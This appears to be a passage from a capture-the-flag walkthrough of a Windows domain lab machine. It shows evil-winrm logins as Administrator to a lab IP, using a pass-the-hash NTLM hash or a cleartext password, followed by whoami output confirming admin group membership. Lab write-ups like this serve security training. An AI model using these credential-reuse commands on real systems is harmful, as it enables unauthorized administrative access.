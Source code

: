 `evil-winrm -i 192.168.56.128 -u Administrator -H 'bc4103a138c65bd0c9c68cde4333c155'`:
```
Enter Password: ←
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine                                                   
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion                                                                     
                                        
Info: Establishing connection to remote endpoint ←
*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```

<🔄 Alternative Step>

`evil-winrm -i 192.168.56.128 -u Administrator -p 'H4ck3d!'`:
```
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

</🔄 Alternative Step>

![Victim: administrator](https://custom-icon-badges.demolab.com/badge/Victim-administrator-64b5f6?logo=windows11&logoColor=white)

`whoami`:
```
soupedecode\administrator ←
```

`whoami /groups`:
```
GROUP INFORMATION
-----------------

Group Name                                         Type             SID                                         Attributes
================================================== ================ =========================================== ===============================================================
Everyone                                           Well-known group S-1-1-0                                     Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                             Alias            S-1-5-32-544                                Mandatory group, Enabled by default, Enabled group, Group owner
BUILTIN\Users                                      Alias            S-1-5-32-545                                Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access         Alias            S-1-5-32-554                                Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                               Well-known group S-1-5-2                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users                   Well-known group S-1-5-11                                    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization                     Well-known group S-1-5-15                                    Mandatory group, Enabled by default, Enabled group
SOUPEDECODE\Group Policy Creator Owners            Group            S-1-5-21-2986980474-46765180-2505414164-520 Mandatory group, Enabled by default, Enabled group
```